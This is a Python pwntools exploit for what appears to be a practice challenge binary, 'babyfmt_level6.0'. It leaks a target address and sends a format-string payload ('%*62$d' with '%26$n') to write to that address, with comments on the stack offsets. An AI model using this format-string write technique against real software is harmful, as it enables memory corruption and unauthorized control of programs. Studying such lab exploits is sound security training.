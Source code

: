 #### get_flag.py

Added explanation inside of PoC. Happy reading...

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './babyfmt_level6.0')
context.terminal=['tmux', 'splitw', '-v']
context.log_level = 'debug'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b *func+571
continue
'''.format(**locals())

# -- Exploit goes here --

def get_win_address_and_value(text):
    match = re.findall(rb"0x[0-9a-fA-F]+", text)
    if match:
        return match
    return None

io = start()


#### leak target address ####

leaks       = get_win_address_and_value(io.recvuntil(b'offset.'))
target_addr = int(leaks[0], 16)

info(f'Target Addr: {target_addr:#x}')


#### write target address ####
offset = 24
padlen = 0

printf_dyn_pad_size = '%*62$d'
fmt = '%26$n'

payload = flat(printf_dyn_pad_size+fmt+randoms((len(printf_dyn_pad_size)+len(fmt))-len(printf_dyn_pad_size)),
               target_addr)


io.sendafter(b'data!\n', payload)

#info(io.recv())
info(f'''User input starts at {offset}th offset,
     but {printf_dyn_pad_size} added extra {len(printf_dyn_pad_size)} bytes.
     Also {fmt} is another {len(fmt)} bytes.
     Total added bytes: {len(printf_dyn_pad_size) + len(fmt)}.
     Plus stack alignment push offset to {offset + 2}.''')
```